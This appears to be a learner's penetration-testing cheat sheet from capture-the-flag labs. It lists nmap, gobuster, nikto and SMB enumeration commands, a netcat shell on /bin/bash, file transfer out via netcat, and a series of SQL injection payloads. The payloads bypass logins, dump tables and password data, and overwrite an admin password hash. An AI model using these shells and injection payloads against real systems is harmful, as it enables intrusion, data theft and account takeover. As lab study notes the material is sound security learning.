 hackerone -> bug bouty
hacker101 -> ctf
hellbound hackers -> for basic web hacking
__NMAP__
-p -> specify port to scan
-sn -> ping scan
-sU -> UDP scan
-sC or --script -> use default scripts
-O -> OS detection
-sV -> version of services running on target
-A -> "aggressive mode"(OS detecton,version,traceroute)

__NETCAT__
nc -l 4545 -> creating a listner
nc (ip of listner) 4545 -> connect to the listner

nc ip 80
HEAD / HTTP/1.0

nc -l -p 4545 -e /bin/bash -> creating a reverse shell
file sharing
nc -l -p 4545 > out.txt -> creating listner expecting "out.txt"
cat '/root/out.txt' | nc ip 4545
nc -w 3 ip 4545 < out.txt        both can use to send file

__gobuster__
find directories- gobuster dir -u 10.10.40.230 -w usr/share/wordlists/dirb/common.txt 

find extensions - gobuster dir -u 10.10.40.230 -w /usr/share/wordlists/dirb/common.txt  -x .php

__NIKTO__
scan for vulnerabilities
nikto -h example.com 
nikto -h example.com -ssl -> to scan about ssl certs

**SMB enumeration with enum4linux**
enum4linux -a 10.10.10.10 -> for all info
enum4linux -U 10.10.10.10. | tee text.txt 
(tee - to write output in file)
for other SMB enumeration
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

smbclient -L 10.10.107.105
smbclient //10.10.107.105/guest

**SCP**
securely copy files and directories between two locations.
ex- 
*scp /opt/linPEAS/linepeas.sh janith@10.10.100.180:/dev/shm*
/dev/shm - temporary file storage files system that uses RAM for the storage

__analysing image__
strings image.jpg
exiftool image.jpg
eog image.jpg
binwalk -e image.png- > -e extract the attacked zip or executable

__steghide__
steghide --embed -ef textfile -cf image -p password

__SQL injection__
1 OR 1=1-- -
ex- WHERE profileID=1 OR 1=1-- - AND password = '18ee24150dc

' OR 1=1-- -
WHERE profileID = 'g' OR 1=1-- -' AND password = '043

URL injection
/sesqli3/login?profileID=' OR 1=1-- -&password=g

SQL update
inject code (field2',nickName='hack1',email='hack2)
UPDATE usertable SET nickName='field1',email='field2',nickName='hack1',email='hack2' WHERE UID='1'
_finding version of databases_
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='

#find tables
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
#extract_colomnNames_fromTables
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
#extract_data_From_table
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
#can update admin password using this
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -

#hash-identifier can be used to identify hash values











